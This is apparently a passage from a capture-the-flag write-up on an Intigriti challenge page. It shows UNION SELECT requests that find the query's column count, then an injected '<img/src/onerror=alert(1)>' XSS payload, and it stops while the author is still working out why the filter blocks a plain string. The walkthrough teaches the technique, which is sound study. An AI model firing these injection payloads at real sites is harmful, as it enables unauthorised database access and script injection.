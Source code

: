 The key here is that every SELECT statement within UNION must have the same 
number of columns as the previous SELECT. 

Following would lead to an error

```
select age,name,email from mytable where age = 30 union select 1337
The used SELECT statements have a different number of columns
```

Up next we figure out how many columns the query we are attacking
returns. We do this by just adding a column until the website does **not** show 
an error.

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1
error

https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,2
error

https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,2,3
error

https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,2,3,4
error

https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,2,3,4,5
```
No error! This reveals that the select statement returns 5 columns. And looking
at the website we already see it rendering 3 columns. The integer `2` is in the place of
to the post title, `5` is the creation date, `3` the blog post content.
Oddly enough Integer `1` and `4` do not show up which in part is unsurprising because 
sometimes developers ask for more information from the database
than they will later use in rendering the content. Especially if you use `select *` 
which is a lazy habit among programmers.

Let's continue and change the integer 2 into a string, more precisely into a XSS
payload that shows we can execute javascript.

```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,'<img/src/onerror=alert(1)>',3,4,5
```

Eagerly we expect the post title to render into an image tag with on onerror handler
that pops and proofs we have found an XSS vulnerability.

But what's that, a `error`!

We know it's valid query syntax with the correct number of columns in the union select.
Some kind of additional checks or filtering must be going on that prohibits our payload.

We try a simpler string.
```
https://challenge-0722.intigriti.io/challenge/challenge.php?month=9999 union select 1,'hello',3,4,5
error
```
So the xss payload was not the problem. We minimize it further.
